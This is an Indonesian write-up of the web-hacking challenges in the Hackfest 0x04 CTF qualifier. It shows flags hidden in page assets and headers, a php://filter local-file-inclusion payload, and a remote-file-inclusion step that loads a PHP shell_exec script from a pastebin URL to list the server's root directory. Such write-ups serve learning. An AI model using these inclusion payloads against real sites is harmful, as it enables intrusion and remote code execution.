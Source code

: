 ```yaml
---
date: 2021-04-01T20:40:20+07:00
title: "Writeup Kualifikasi CTF Hackfest 0x04 Web Hacking"
slug: "writeup-kualifikasi-ctf-hackfest-0x04-web-hacking"
description: "WriteUp saya dalam acara CTF Hackfest Cyber Community Universitas Gunadarma (CCUG)."
---
```


Hackfest merupakan acara yang diselenggarakan oleh Cyber Community Unversitas Gunadarma (CCUG) untuk merekrut anggota baru untuk masuk ke tim mereka. Kebetulan saya mengikuti Hackfest 0x04. Berikut ini adalah writeup saya dalam menjawab soal-soal CTF Hackfest 0x04. Akan tetapi tidak semua writeup saya tulis, hanya kategori Web Hacking saja 😸

## Bayi IE
```
Ezz Parah Gak Usah Nanya (1)
http://ccug.my.id:22121/
Author: Ikhari
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan Web](Bayi_IE.png)

Setelah itu, saya mencoba melihat page source dengan cara menekan CTRL + U. Didapatkan 1/3 dari flag seperti ini:

![Source code](Bayi_IE_2.png)

Karena itu masih 1/3 bagian alias belum penuh, maka saya memutuskan untuk mencari lagi. Saya mencoba melihat file-file yang dimasukkan ke sini, yaitu semua css dan js. Lalu saya menemukan flag ke 2/3 di dalam file vegas.min.js

![vegas.min.js](Bayi_IE_3.png)

Saya juga menemukan flag ke 3/3 di dalam file templatemo-file.css

![templatemo-file.css](Bayi_IE_4.png)

Sehingga, flagnya dapat digabungkan dan dihasilkan:

`hackfest{IE_AdAlaH_Hal_PaLiNg_pEnTing_DAlaM_menCARI_iNfo}`

## Where Are You Now?
```
Hehehe boi
http://ccug.my.id:20000/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan awal](Where_Are_You_Now.png)

Saya membuka menu Flag, didapatkan tampilan seperti ini:

![Halaman Flag](Where_Are_You_Now_2.png)

Lalu, saya melihat URLnya, didapatkan URL seperti ini:

http://ccug.my.id:20000/index.php?page=flag.php

Saya berasumsi bahwa terdapat celah di bagian "page=", yang mana bagian method get tersebut akan memasukkan file php sesuai dengan nama yang dimasukkan di URL. Sehingga, saya mencoba memasukkan PHP Wrapper menjadi seperti ini:

http://ccug.my.id:20000/index.php?page=php://filter/convert.base64-encode/resource=flag.php

Didapatkan hasil seperti ini:

![Source flag.php tapi dihash base64](Where_Are_You_Now_3.png)

Karena masih menggunakan base64, akhirnya saya membuat script Python sederhana untuk menerjemahkan base64 tersebut:

![Script Python3](Where_Are_You_Now_4.png)

Jalankan scriptnya dan dapat deh flagnya:

![Output](Where_Are_You_Now_5.png)

`hackfest{tau_kan_harus_diapain_nih_flag?_ya_disubmit_lah:)}`

## eRFI Minta Tolong
```
Flag jauh dari apa yang kamu liat:*
http://ccug.my.id:20001/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan awal](eRFI_Minta_Tolong.png)

Saya mencoba cara yang sama seperti soal "Where Are You Now?", dan didapatkan hasil seperti ini:

![Output](eRFI_Minta_Tolong_2.png)

Karena bukan itu flagnya, maka saya mencoba cara lain, yaitu dengan cara eksekusi shell. Kenapa eksekusi shell? Karena di soalnya judulnya 'RFI' atau _Remote File Inclusion_, singkatnya RFI ini bisa membuat penyerang mengakses server korbannya. Saya membuat script php sederhana untuk eksekusi shell, menggunakan pastebin:
```
<pre>

<?php

echo shell_exec("ls /");

?>

</pre>
```

Setelah itu link raw dari pastebin saya masukkan sebagai parameter pada method "page="

http://ccug.my.id:20001/index.php?page=https://pastebin.com/raw/sju0u1WZ

Didapatkan tampilan seperti ini, di mana ini adalah list direktori dari root "/":

![Direktori Root](eRFI_Minta_Tolong_3.png)

Di sana terdapat file flagnya, sekarang tinggal dibaca menggunakan file wrapper yang dimasukkan sebagai parameter juga.

http://ccug.my.id:20001/index.php?page=file:///1Ni_fL4g_eUy.txt

Didapatkan flagnya:

`hackfest{widihhh_mantep_euy_tau_aja_ada_disini}`

## Bayi Kepala
```
Ezz Parah Gak Usah Nanya (2)
http://ccug.my.id:22122/
Author: Ikhari
```
Saya mencoba mengakses url di soal menggunakan API Client Insomnia, lalu memeriksa bagian headersnya. Dan ditemukan flagnya.

![Insomnia](Bayi_Kepala.png)

`hackfest{YOU_EXPECTED_FLAG_!_BUT_IT_WAS_ME_DIO_!!!}`

## Bayi Robot
```
Ezz Parah Gak Usah Nanya (3)
http://ccug.my.id:22123/
Author: Ikhari
```
Saya mencoba mengakses url di soal lalu membuka robots.txt, dan didapatkan hasil seperti ini:

![Robots.txt](Bayi_Robot.png)

Setelah itu, saya membuka satu-satu filenya. Dan pada file NoRobotHere.txt saya mendapatkan kode base64:

![NoRobotHere.txt](Bayi_Robot_2.png)

Lalu encode base64 tersebut dan didapatkan flagnya:

`hackfest{FlaG_HAck_FeSt_0xo4}`

Sekian writeup dari saya, semoga bisa menambah ilmu teman-teman semua 😁
